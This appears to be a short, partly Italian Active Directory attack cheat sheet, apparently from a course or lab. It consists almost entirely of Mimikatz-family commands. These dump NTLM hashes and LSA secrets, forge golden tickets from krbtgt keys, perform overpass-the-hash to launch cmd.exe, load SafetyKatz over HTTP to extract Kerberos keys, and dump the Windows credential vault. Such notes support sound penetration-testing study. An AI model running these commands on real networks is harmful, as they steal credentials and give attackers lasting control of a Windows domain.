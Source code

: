 ### **ASSICURATI CHE STIA RUNNANDO COME PRIVILEGED**
```powershell
privilege::debug
```
### **DUMPA LE NTLM HASH**
```powershell
lsadump::lsa /patch
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
### **GOLDEN TICKET**
Crei un ticket per poter loggare quando vuoi
```MSF
golden_ticket_create //MSF
```
```MSF
lsadump::lsa /inject /name:krbtgt
```
per creare il golden ticket
```MSF
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

### **OVERPASS THE HASH**
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Extract Credentials**
Use loader.exe
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

### **Extract from credential vault**
```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### **Using the secrets of krbtgt account, create a Golden ticket**
Just use BetterSafetyKatz
```powershell
> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<NOME DOMINIO> /sid:<SID DC(lsa dump safetykatz> /aes256:<AES KRBTGT> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
